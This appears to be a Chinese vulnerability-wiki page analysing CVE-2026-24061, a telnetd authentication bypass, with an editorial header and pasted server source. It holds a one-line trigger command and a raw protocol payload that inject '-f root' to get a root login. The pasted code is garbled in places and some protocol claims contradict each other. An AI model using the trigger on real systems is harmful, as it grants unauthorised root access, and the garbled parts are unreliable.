# CVE-2026-24061：GNU InetUtils Telnetd 身份验证绕过漏洞

## 原维护者手工触发与修补范围（2026-10-03）

本次完整读取 [GNU 维护者的 oss-security 原始通告](https://www.openwall.com/lists/oss-security/2026/01/20/2)、同线程回复与两个固定补丁。通告的 Example 段落提供完整的手工验证输入、telnet 客户端的 `-a` 条件及服务端 login 参数说明；它已满足公开具体触发材料要求，不需要维护者再次运行。

原通告解释的是客户端提供的 USER 被展开到 login 命令行，特殊值成为 `-f` 参数，而非“已经通过远程认证后正常附加一次 -f”。本条只适用于相应 GNU Inetutils telnetd / login 组合及服务可达部署，不能推广成所有 Telnet 实现漏洞。原始公开范围为 1.9.3 至 2.7；发行版回移补丁须看包修订与实际改动，不能只读上游版本字符串。[CNA](https://www.cve.org/CVERecord?id=CVE-2026-24061)

[第一补丁 fd702c0](https://codeberg.org/inetutils/inetutils/commit/fd702c02497b2f398e739e3119bed0b23dd7aa7b)限制 USER 的首字符和元字符；[第二补丁 ccba9f7](https://codeberg.org/inetutils/inetutils/commit/ccba9f748aa8d50a38d7748e2e60362edd6a32cc)把同类检查推广到其他变量展开。只找到第一处 USER 检查不能据此宣称全部变量路径都已覆盖。补丁没有给本条归档中所有手写 Telnet 协商脚本背书，SEND/IS、VAR/USERVAR 及代码排版问题仍须分别处理。

手工触发会尝试建立高权限登录，产生服务连接、认证日志和会话；后续命令可改变系统。原始通告还列有安装/启用服务步骤，那些会改变暴露面，并非本次执行指令。本次未运行命令、未开启 Telnet，也没有下载或执行归档指向的封闭工具。代码或示例的原值保留，纠正仅见本节。


<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：1.9.3至2.7、客户端环境协商及适用login调用；未认证可达
- 证据范围：从getterminaltype/telrcv/suboption到模板展开的追踪较细，保留独立分析；多处协议与最终参数叙述自相矛盾

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 先说明客户端回应IS，随后却把攻击包写成SEND并将其当核心，需回源核对
- 变量标记示例VAR与解释USERVAR不一致
- 明确跳过{-f %u}分支后最终却多出两个-f，自相矛盾
- 登录模板示例缺login可执行路径，属于片段应标注
- 源码行合并产生intgetterminaltype/caseBREAK/elseif等错误，重复大段state代码
- 应区分参数注入与shell执行，execv本身不调用shell

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

Werqy3
                    Werqy3  泷羽Sec   2026-01-24 14:30  
  
GNU InetUtils telnetd（版本 1.9.3 至 2.7）存在高危远程认证绕过漏洞。攻击者可通过 Telnet 协议的环境变量协商机制，在连接阶段注入恶意 USER  
 环境变量（如 USER="-f root"  
），直接以指定用户身份登录，从而使攻击者无需密码即可获得 root shell，完全控制目标服务器。  
  
转自：  
https://forum.butian.net/share/4766，作者：  
Werqy3  
## 漏洞描述  
  
GNU InetUtils telnetd（版本 1.9.3 至 2.7）存在高危远程认证绕过漏洞。攻击者可通过 Telnet 协议的环境变量协商机制，在连接阶段注入恶意 USER  
 环境变量（如 USER="-f root"  
）。由于 telnetd 在处理 NEW_ENVIRON  
 子选项时未对客户端提供的环境变量值进行任何安全校验，并且在启动登录进程时直接使用该变量构造 /bin/login  
 命令，导致系统执行 login -f root  
。而 login  
 的 -f  
 参数会跳过身份验证，直接以指定用户身份登录，从而使攻击者无需密码即可获得 root shell，完全控制目标服务器。  
  
  
  
img  
## 漏洞分析  
  
攻击者执行：  
```
USER='-f root' telnet -a 目标服务器IP 23
```  
  
USER='-f root'  
：设置恶意环境变量  
  
-a  
 或 --login  
：告诉telnet客户端发送 USER  
 环境变量到服务器  
### 首先进行环境变量修改  
  
  
  
img  
  
使用telnetd_setup函数对服务器进行初始化，然后进入telnetd_run函数开始解析用户发送的命令  
  
首先是telnetd_setup函数  
  
  
  
img  
  
在514行  
  
  
  
img  
  
第一处的作用是清除现有USER环境变量  
  
第二处会进行终端类型的获取，并会触发协议处理**getterminaltype**  
函数  
  
  
  
img  
  
可以看到该函数在telnetd/utility.c  
  
调到这里，对该函数进行审计  
```
intgetterminaltype (char *uname, size_t len){  int retval = -1;  settimer (baseline);#if defined AUTHENTICATION/*   * Handle the Authentication option before we do anything else.   * Distinguish the available modes by level:   *   *   off:         Authentication is forbidden.   *   none:            Volontary authentication.   *   user, valid, other:  Mandatory authentication only.   */if (auth_level < 0)    send_wont (TELOPT_AUTHENTICATION, 1);else    {      if (auth_level > 0)    send_do (TELOPT_AUTHENTICATION, 1);      else    send_will (TELOPT_AUTHENTICATION, 1);      ttloop (his_will_wont_is_changing (TELOPT_AUTHENTICATION));      if (his_state_is_will (TELOPT_AUTHENTICATION))    retval = auth_wait (uname, len);    }#else /* !AUTHENTICATION */  (void) uname; /* Silence warning.  */  (void) len;   /* Silence warning.  */#endif#ifdef  ENCRYPTION  send_will (TELOPT_ENCRYPT, 1);#endif /* ENCRYPTION */  send_do (TELOPT_TTYPE, 1);  send_do (TELOPT_TSPEED, 1);  send_do (TELOPT_XDISPLOC, 1);  send_do (TELOPT_NEW_ENVIRON, 1);  send_do (TELOPT_OLD_ENVIRON, 1);#ifdef ENCRYPTION  ttloop (his_do_dont_is_changing (TELOPT_ENCRYPT)      || his_will_wont_is_changing (TELOPT_TTYPE)      || his_will_wont_is_changing (TELOPT_TSPEED)      || his_will_wont_is_changing (TELOPT_XDISPLOC)      || his_will_wont_is_changing (TELOPT_NEW_ENVIRON)      || his_will_wont_is_changing (TELOPT_OLD_ENVIRON));#else  ttloop (his_will_wont_is_changing (TELOPT_TTYPE)      || his_will_wont_is_changing (TELOPT_TSPEED)      || his_will_wont_is_changing (TELOPT_XDISPLOC)      || his_will_wont_is_changing (TELOPT_NEW_ENVIRON)      || his_will_wont_is_changing (TELOPT_OLD_ENVIRON));#endif#ifdef  ENCRYPTIONif (his_state_is_will (TELOPT_ENCRYPT))    encrypt_wait ();#endifif (his_state_is_will (TELOPT_TSPEED))    {      static unsigned char sb[] =    { IAC, SB, TELOPT_TSPEED, TELQUAL_SEND, IAC, SE };      net_output_datalen (sb, sizeof sb);    }if (his_state_is_will (TELOPT_XDISPLOC))    {      static unsigned char sb[] =    { IAC, SB, TELOPT_XDISPLOC, TELQUAL_SEND, IAC, SE };      net_output_datalen (sb, sizeof sb);    }if (his_state_is_will (TELOPT_NEW_ENVIRON))    {      static unsigned char sb[] =    { IAC, SB, TELOPT_NEW_ENVIRON, TELQUAL_SEND, IAC, SE };      net_output_datalen (sb, sizeof sb);    }elseif (his_state_is_will (TELOPT_OLD_ENVIRON))    {      static unsigned char sb[] =    { IAC, SB, TELOPT_OLD_ENVIRON, TELQUAL_SEND, IAC, SE };      net_output_datalen (sb, sizeof sb);    }if (his_state_is_will (TELOPT_TTYPE))    net_output_datalen (ttytype_sbbuf, sizeof ttytype_sbbuf);if (his_state_is_will (TELOPT_TSPEED))    ttloop (sequenceIs (tspeedsubopt, baseline));if (his_state_is_will (TELOPT_XDISPLOC))    ttloop (sequenceIs (xdisplocsubopt, baseline));if (his_state_is_will (TELOPT_NEW_ENVIRON))    ttloop (sequenceIs (environsubopt, baseline));if (his_state_is_will (TELOPT_OLD_ENVIRON))    ttloop (sequenceIs (oenvironsubopt, baseline));if (his_state_is_will (TELOPT_TTYPE))    {      char *first = NULL, *last = NULL;      ttloop (sequenceIs (ttypesubopt, baseline));      /*       * If the other side has already disabled the option, then       * we have to just go with what we (might) have already gotten.       */      if (his_state_is_will (TELOPT_TTYPE) && !terminaltypeok (terminaltype))    {      free (first);      first = xstrdup (terminaltype);      for (;;)        {          /* Save the unknown name, and request the next name. */          free (last);          last = xstrdup (terminaltype);          _gettermname ();          if (terminaltypeok (terminaltype))        break;          if ((strcmp (last, terminaltype) == 0)          || his_state_is_wont (TELOPT_TTYPE))        {          /*           * We've hit the end.  If this is the same as           * the first name, just go with it.           */          if (strcmp (first, terminaltype) == 0)            break;          /*           * Get the terminal name one more time, so that           * RFC1091 compliant telnets will cycle back to           * the start of the list.           */          _gettermname ();          if (strcmp (first, terminaltype) != 0)            {              free (terminaltype);              terminaltype = xstrdup (first);            }          break;        }        }    }      free (first);      free (last);    }return retval;}
```  
  
其中  
  
  
  
img  
  
send_do (TELOPT_XXX, 1);  
 这一系列调用向远程Telnet客户端发送了一个“DO”请求，告知客户端“我希望你启用 TELOPT_TTYPE  
（终端类型）、TELOPT_TSPEED  
（终端速度）等特性”  
  
ttloop  
 函数的调用参数 his_will_wont_is_changing(TELOPT_XXX)  
 是关键。它的作用是检查远程客户端对于特定选项（如TELOPT_TTYPE  
）的“WILL”（同意）或“WONT”（拒绝）响应状态是否发生了变化。  
  
将 ttloop  
 的参数设置为这些状态检查的逻辑“或”，意味着 ttloop  
 会**持**  
续循环运行，直到所有发送出去的选项请求都收到了客户的明确响应（无论是同意还是拒绝），也就是状态不再“正在变化”。  
  
因此，ttloop  
 在此处扮演了同步等待客户端回复的角色，确保协议协商步骤正确完成后再继续。  
  
  
  
img  
  
ttloop函数的实质是循环调用io_drain()  
  
  
  
img  
  
此时io_drain()在utility.c，我们跳到utility.c去查看其函数内容  
  
  
  
img  
  
读取网络数据：将客户端发送来的原始字节流读入缓冲区 (netibuf  
)  
  
然后执行telrcv()  
  
  
  
img  
  
跳到telnetd/state.c查看其内容  
```
void  telrcv (void){  register int c;static int state = TS_DATA;while ((net_input_level () > 0) & !pty_buffer_is_full ())  {    c = net_get_char (0);    #ifdef  ENCRYPTION    if (decrypt_input)      c = (*decrypt_input) (c);    #endif /* ENCRYPTION */      switch (state)      {        case TS_CR:          state = TS_DATA;          /* Strip off \n or \0 after a \r */          if ((c == 0) || (c == '\n'))            break;          /* FALL THROUGH */        case TS_DATA:          if (c == IAC)          {            state = TS_IAC;            break;          }          /** We now map \r\n ==> \r for pragmatic reasons.* Many client implementations send \r\n when* the user hits the CarriageReturn key.** We USED to map \r\n ==> \n, since \r\n says* that we want to be in column 1 of the next* printable line, and \n is the standard* unix way of saying that (\r is only good* if CRMOD is set, which it normally is).*/          if ((c == '\r') && his_state_is_wont (TELOPT_BINARY))          {            int nc = net_get_char (1);            #ifdef  ENCRYPTION            if (decrypt_input)              nc = (*decrypt_input) (nc & 0xff);            #endif /* ENCRYPTION */              /** If we are operating in linemode,* convert to local end-of-line.*/              if (linemode                  && net_input_level () > 0                  && (('\n' == nc) || (!nc && tty_iscrnl ())))              {                net_get_char (0);   /* Remove from the buffer */                c = '\n';              }              else              {                #ifdef  ENCRYPTION                if (decrypt_input)                  (*decrypt_input) (-1);                #endif /* ENCRYPTION */                  state = TS_CR;              }          }          pty_output_byte (c);          break;        case TS_IAC:          gotiac:          switch (c)          {              /** Send the process on the pty side an* interrupt.  Do this with a NULL or* interrupt char; depending on the tty mode.*/            case IP:              DEBUG (debug_options, 1, printoption ("td: recv IAC", c));              send_intr ();              break;            caseBREAK:              DEBUG (debug_options, 1, printoption ("td: recv IAC", c));              send_brk ();              break;              /** Are You There?*/            case AYT:              DEBUG (debug_options, 1, printoption ("td: recv IAC", c));              recv_ayt ();              break;              /** Abort Output*/            case AO:              {                DEBUG (debug_options, 1, printoption ("td: recv IAC", c));                ptyflush ();    /* half-hearted */                init_termbuf ();                if (slctab[SLC_AO].sptr                    && *slctab[SLC_AO].sptr != (cc_t) (_POSIX_VDISABLE))                  pty_output_byte (*slctab[SLC_AO].sptr);                netclear ();    /* clear buffer back */                net_output_data ("%c%c", IAC, DM);                set_neturg ();                DEBUG (debug_options, 1, printoption ("td: send IAC", DM));                break;              }              /** Erase Character and* Erase Line*/            case EC:            case EL:              {                cc_t ch;                DEBUG (debug_options, 1, printoption ("td: recv IAC", c));                ptyflush ();    /* half-hearted */                init_termbuf ();                if (c == EC)                  ch = *slctab[SLC_EC].sptr;                else                  ch = *slctab[SLC_EL].sptr;                if (ch != (cc_t) (_POSIX_VDISABLE))                  pty_output_byte ((unsigned char) ch);                break;              }              /*           * Check for urgent data...           */            case DM:              DEBUG (debug_options, 1, printoption ("td: recv IAC", c));              SYNCHing = stilloob (net);              settimer (gotDM);              break;              /*           * Begin option subnegotiation...           */            case SB:              state = TS_SB;              SB_CLEAR ();              continue;            case WILL:              state = TS_WILL;              continue;            case WONT:              state = TS_WONT;              continue;            caseDO:          state = TS_DO;          continue;        case DONT:          state = TS_DONT;          continue;        case EOR:          if (his_state_is_will (TELOPT_EOR))        send_eof ();          break;          /*           * Handle RFC 10xx Telnet linemode option additions           * to command stream (EOF, SUSP, ABORT).           */        case xEOF:          send_eof ();          break;        case SUSP:          send_susp ();          break;        case ABORT:          send_brk ();          break;        case IAC:          pty_output_byte (c);          break;        }      state = TS_DATA;      break;    case TS_SB:      if (c == IAC)        state = TS_SE;      else        SB_ACCUM (c);      break;    case TS_SE:      if (c != SE)        {          if (c != IAC)        {          /*           * bad form of suboption negotiation.           * handle it in such a way as to avoid           * damage to local state.  Parse           * suboption buffer found so far,           * then treat remaining stream as           * another command sequence.           */          /* for DIAGNOSTICS */          SB_ACCUM (IAC);          SB_ACCUM (c);          subpointer -= 2;          SB_TERM ();          suboption ();          state = TS_IAC;          goto gotiac;        }          SB_ACCUM (c);          state = TS_SB;        }      else        {          /* for DIAGNOSTICS */          SB_ACCUM (IAC);          SB_ACCUM (SE);          subpointer -= 2;          SB_TERM ();          suboption (); /* handle sub-option */          state = TS_DATA;        }      break;    case TS_WILL:      willoption (c);      state = TS_DATA;      continue;    case TS_WONT:      wontoption (c);      state = TS_DATA;      continue;    case TS_DO:      dooption (c);      state = TS_DATA;      continue;    case TS_DONT:      dontoption (c);      state = TS_DATA;      continue;    default:      syslog (LOG_ERR, "telnetd: panic state=%d\n", state);      printf ("telnetd: panic state=%d\n", state);      exit (EXIT_FAILURE);    }    }}
```  
  
该函数从网络读取攻击者发送的数据并进行解析，下面是解析的过程代码  
```
    case TS_DATA:      if (c == IAC)        {          state = TS_IAC;          break;        }      /*       * We now map \r\n ==> \r for pragmatic reasons.       * Many client implementations send \r\n when       * the user hits the CarriageReturn key.       *       * We USED to map \r\n ==> \n, since \r\n says       * that we want to be in column 1 of the next       * printable line, and \n is the standard       * unix way of saying that (\r is only good       * if CRMOD is set, which it normally is).       */      if ((c == '\r') && his_state_is_wont (TELOPT_BINARY))        {          int nc = net_get_char (1);#ifdef  ENCRYPTION          if (decrypt_input)        nc = (*decrypt_input) (nc & 0xff);#endif /* ENCRYPTION */          /*           * If we are operating in linemode,           * convert to local end-of-line.           */          if (linemode          && net_input_level () > 0          && (('\n' == nc) || (!nc && tty_iscrnl ())))        {          net_get_char (0); /* Remove from the buffer */          c = '\n';        }          else        {#ifdef  ENCRYPTION          if (decrypt_input)            (*decrypt_input) (-1);#endif /* ENCRYPTION */          state = TS_CR;        }        }      pty_output_byte (c);      break;    case TS_IAC:    gotiac:      switch (c)        {          /*           * Send the process on the pty side an           * interrupt.  Do this with a NULL or           * interrupt char; depending on the tty mode.           */        case IP:          DEBUG (debug_options, 1, printoption ("td: recv IAC", c));          send_intr ();          break;        caseBREAK:          DEBUG (debug_options, 1, printoption ("td: recv IAC", c));          send_brk ();          break;          /*           * Are You There?           */        case AYT:          DEBUG (debug_options, 1, printoption ("td: recv IAC", c));          recv_ayt ();          break;          /*           * Abort Output           */        case AO:          {        DEBUG (debug_options, 1, printoption ("td: recv IAC", c));        ptyflush ();    /* half-hearted */        init_termbuf ();        if (slctab[SLC_AO].sptr            && *slctab[SLC_AO].sptr != (cc_t) (_POSIX_VDISABLE))          pty_output_byte (*slctab[SLC_AO].sptr);        netclear ();    /* clear buffer back */        net_output_data ("%c%c", IAC, DM);        set_neturg ();        DEBUG (debug_options, 1, printoption ("td: send IAC", DM));        break;          }          /*           * Erase Character and           * Erase Line           */        case EC:        case EL:          {        cc_t ch;        DEBUG (debug_options, 1, printoption ("td: recv IAC", c));        ptyflush ();    /* half-hearted */        init_termbuf ();        if (c == EC)          ch = *slctab[SLC_EC].sptr;        else          ch = *slctab[SLC_EL].sptr;        if (ch != (cc_t) (_POSIX_VDISABLE))          pty_output_byte ((unsigned char) ch);        break;          }          /*           * Check for urgent data...           */        case DM:          DEBUG (debug_options, 1, printoption ("td: recv IAC", c));          SYNCHing = stilloob (net);          settimer (gotDM);          break;          /*           * Begin option subnegotiation...           */        case SB:          state = TS_SB;          SB_CLEAR ();          continue;        case WILL:          state = TS_WILL;          continue;        case WONT:          state = TS_WONT;          continue;        caseDO:          state = TS_DO;          continue;        case DONT:          state = TS_DONT;          continue;        case EOR:          if (his_state_is_will (TELOPT_EOR))        send_eof ();          break;          /*           * Handle RFC 10xx Telnet linemode option additions           * to command stream (EOF, SUSP, ABORT).           */        case xEOF:          send_eof ();          break;        case SUSP:          send_susp ();          break;        case ABORT:          send_brk ();          break;        case IAC:          pty_output_byte (c);          break;        }      state = TS_DATA;      break;    case TS_SB:      if (c == IAC)        state = TS_SE;      else        SB_ACCUM (c);      break;    case TS_SE:      if (c != SE)        {          if (c != IAC)        {          /*           * bad form of suboption negotiation.           * handle it in such a way as to avoid           * damage to local state.  Parse           * suboption buffer found so far,           * then treat remaining stream as           * another command sequence.           */          /* for DIAGNOSTICS */          SB_ACCUM (IAC);          SB_ACCUM (c);          subpointer -= 2;          SB_TERM ();          suboption ();          state = TS_IAC;          goto gotiac;        }          SB_ACCUM (c);          state = TS_SB;        }      else        {          /* for DIAGNOSTICS */          SB_ACCUM (IAC);          SB_ACCUM (SE);          subpointer -= 2;          SB_TERM ();          suboption (); /* handle sub-option */          state = TS_DATA;        }      break;
```  
  
这里通过解析 TELNET 协议，去提取环境变量，然后进入suboption函数处理子选项  
  
这里是漏洞的核心点  
  
  
  
img  
```
case TELOPT_NEW_ENVIRON:case TELOPT_OLD_ENVIRON:{    // ... (前面的协议解析代码)    while (!SB_EOF()) {        c = SB_GET();        // ... 解析出 varp (变量名) 和 valp (变量值) ...    }    *cp = '\0';    if (valp)        setenv(varp, valp, 1); // <--- ！！！漏洞核心触发点！！！    else        unsetenv(varp);    break;}
```  
  
setenv(varp, valp, 1);被无条件执行，意味着：  
  
**无来源验证**  
：代码没有检查这个 SEND  
 指令是否应该由客户端主动发起。在Telnet协议中，通常应由服务器发送 SEND  
 来请求变量，客户端用 IS  
 回应。这里客户端却“命令”服务器设置变量，而服务器接受了。  
  
**无内容过滤**  
：代码没有对 valp  
（即 -f root  
）的内容进行任何安全检查。它没有过滤以破折号(-  
)开头的值，而这类值正好可以被 login  
 程序解析为命令行参数。  
  
**无权限检查**  
：代码直接设置了环境变量，特别是敏感的 USER  
 变量，而没有验证其值是否合理（例如，是否是一个合法的用户名）。  
  
相当于攻击者发送  
```
IAC SB NEW-ENVIRON SEND VAR "USER" VALUE "-f root" IAC SE
```  
  
后端就会进行如下解析：  
```
1. 遇到 USERVAR → 识别为新变量开始2. 收集 "USER" 到 varp3. 遇到 VALUE → 切换到值收集模式4. 收集 "-f root" 到 valp5. 循环结束，执行：setenv("USER", "-f root", 1)
```  
  
从而使得环境变量被恶意设置  
### 然后启动登录进程  
  
  
  
img  
  
登录口  
  
  
  
img  
  
跳转到telnetd/pty.c进行审计  
```
voidstart_login (char *host, int autologin, char *name){  char *cmd;  int argc;  char **argv;  (void) host;      /* Silence warnings.  Diagnostic use?  */  (void) autologin;  (void) name;  scrub_env ();/* Set the environment variable "LINEMODE" to indicate our linemode */if (lmodetype == REAL_LINEMODE)    setenv ("LINEMODE", "real", 1);elseif (lmodetype == KLUDGE_LINEMODE || lmodetype == KLUDGE_OK)    setenv ("LINEMODE", "kludge", 1);  cmd = expand_line (login_invocation);if (!cmd)    fatal (net, "can't expand login command line");  argcv_get (cmd, "", &argc, &argv);  execv (argv[0], argv);  syslog (LOG_ERR, "%s: %m\n", cmd);  fatalperror (net, cmd);}scrub_env ();
```  
  
清理危险环境变量  
  
  
  
img  
  
进入该函数之后可以看见，其未对USER过滤！！！  
### 模板展开引擎  
  
得知未对USER过滤，那么攻击者构造的恶意USER就会被传入，下面是登录时对登录模板进行解析的流程  
  
  
  
img  
```
// 登录模板默认配置login_invocation = " -p -h %h %?u{-f %u}{%U}"// 当没有认证用户时（%u为空）
```  
  
